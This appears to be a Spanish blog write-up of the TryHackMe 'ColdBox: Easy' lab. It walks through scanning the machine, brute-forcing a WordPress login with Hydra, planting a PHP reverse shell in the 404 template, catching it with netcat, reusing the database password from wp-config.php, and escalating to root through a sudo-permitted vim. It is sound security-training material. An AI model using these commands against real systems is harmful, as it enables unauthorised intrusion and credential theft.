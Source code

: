 ```yaml
---
title: "ColdBox: Easy"
date: 2024-03-27 16:00 +/-0000
categories: TryHackMe Máquina
tags:
  - tryhackme
  - easy
  - wordpress
author: okud4
toc: true
img_path: /assets/img/
image: /banners/Cold-Box.png
---
```


## RECONOCIMIENTO

Empezamos escaneando la direccion ip de la máquina con nmap, pero antes de nada en la web [Station X](https://www.stationx.net/nmap-cheat-sheet/)tenemos una buena herramienta para personalizar el tipo de escaneo que deseamos realizar.

Usare un comando para que detecte todos los puertos abiertos, detecte el sistema operativo.

```bash
sudo nmap -p- -O -A -T4 -vvv <ip>

PORT     STATE SERVICE REASON         VERSION
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: ColddBox | One more machine
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
4512/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4e:bf:98:c0:9b:c5:36:80:8c:96:e8:96:95:65:97:3b (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDngxJmUFBAeIIIjZkorYEp5ImIX0SOOFtRVgperpxbcxDAosq1rJ6DhWxJyyGo3M+Fx2koAgzkE2d4f2DTGB8sY1NJP1sYOeNphh8c55Psw3Rq4xytY5u1abq6su2a1Dp15zE7kGuROaq2qFot8iGYBVLMMPFB/BRmwBk07zrn8nKPa3yotvuJpERZVKKiSQrLBW87nkPhPzNv5hdRUUFvImigYb4hXTyUveipQ/oji5rIxdHMNKiWwrVO864RekaVPdwnSIfEtVevj1XU/RmG4miIbsy2A7jRU034J8NEI7akDB+lZmdnOIFkfX+qcHKxsoahesXziWw9uBospyhB
|   256 88:17:f1:a8:44:f7:f8:06:2f:d3:4f:73:32:98:c7:c5 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKNmVtaTpgUhzxZL3VKgWKq6TDNebAFSbQNy5QxllUb4Gg6URGSWnBOuIzfMAoJPWzOhbRHAHfGCqaAryf81+Z8=
|   256 f2:fc:6c:75:08:20:b1:b2:51:2d:94:d6:94:d7:51:4f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE/fNq/6XnAxR13/jPT28jLWFlqxd+RKSbEgujEaCjEc
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```

Obtengo como resultado que en el puerto 80 corre un servidor Wordpress desactualizado y en el puerto 4512 se podria acceder mediante SSH. Lo mas facil en este caso es centrar el ataque en Wordpres.

Usando `dirb http://<ip>` me listará todos los directorios disponibles. Como resultado obtengo el directorio `/hidden/` y al acceder a dicho directorio obtengo una página web. Compruebo su código y obtengo un dato interesante:

```html5
<h2>[EDITADO], you changed Hugo's password, when you can send it to him so he can continue uploading his articles. Philip</h2>
```

Compruebo que el usuario es válido, para hacerlo lo hago directamente en el login, si el usuario no existe, el propio login de Wordpress lo notifica:

![login](capturas/coldbox/userlogin.png)

Usaré Hydra para obtener acceso al blog.

```bash
hydra -l [USUARIO] -P /usr/share/wordlists/rockyou.txt 10.10.117.11 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.117.11%2Fwp-admin%2F&testcookie=1:S=Location" 
```

Y obtenemos el password para dicho usuario:

```bash
[80][http-post-form] host: 10.10.117.11   login: [USUARIO]   password: [PASSWORD]
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-03-27 18:02:36
```

Ahora que tengo acceso al Wordpress, subo una shell para poder explotar el servidor. En mi caso, editaré la página 404.php y aqui incluiré una shell en php. Existe un plugin para navegador que me facilita el trabajo, se llama **_HackerTools_**. 

![template wordpress](capturas/coldbox/template.png)

Ahora para poder acceder al shell, en la terminal escribo el comand para conectarme por netcat y, para que esto funcione, en el navegador debo conseguir un error 404 (por ejemplo, con una url inexistente)

```bash
~ ❯ nc -lvnp 4455       
listening on [any] 4455 ...
connect to [10.9.206.239] from (UNKNOWN) [10.10.117.11] 50862
Linux ColddBox-Easy 4.4.0-186-generic #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 18:25:08 up  1:18,  0 users,  load average: 0.00, 0.00, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```

Ya estoy dentro, asi que ahora mejoro la terminal para poder trabajar con ella. El siguiente paso es ejecutar un comando que me permita localizar los archivos .txt 

```bash
www-data@ColddBox-Easy:/$ find / -type f -name '*.txt' 2>/dev/null
```

Tras localizar las posibles flags, para leer el contenido necesito ingresar como superusuario.

Para ello, primero obtengo el password que se encuentra alojado en la base de datos y la utilizo para logearme con el usuario y así obtener el flag oculto en el archivo user.txt.

```bash
www-data@ColddBox-Easy:/$ cd var/www/html/
www-data@ColddBox-Easy:/var/www/html$ cat wp-config.php | grep "DB_PASSWORD"
define('DB_PASSWORD', '[*]');
www-data@ColddBox-Easy:/var/www/html$ su c0ldd
Password: 
c0ldd@ColddBox-Easy:/var/www/html$ cd
c0ldd@ColddBox-Easy:~$ ls
user.txt
c0ldd@ColddBox-Easy:~$ cat user.txt 

```

Ahora, necesito ser usuario root. Ejecuto el comando `sudo -l` para obtener los binarios a los que poder atacar.

```bash
c0ldd@ColddBox-Easy:/$ sudo -l
[sudo] password for c0ldd: 
Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
c0ldd@ColddBox-Easy:/$ sudo vim
```

Ejecuto **_Vim_** como superusuario y dentro escribo 

```vim
:!bin/bash
```

y obtengo el ultimo flag:

```bash
root@ColddBox-Easy:/# cat /root/root.txt 
```

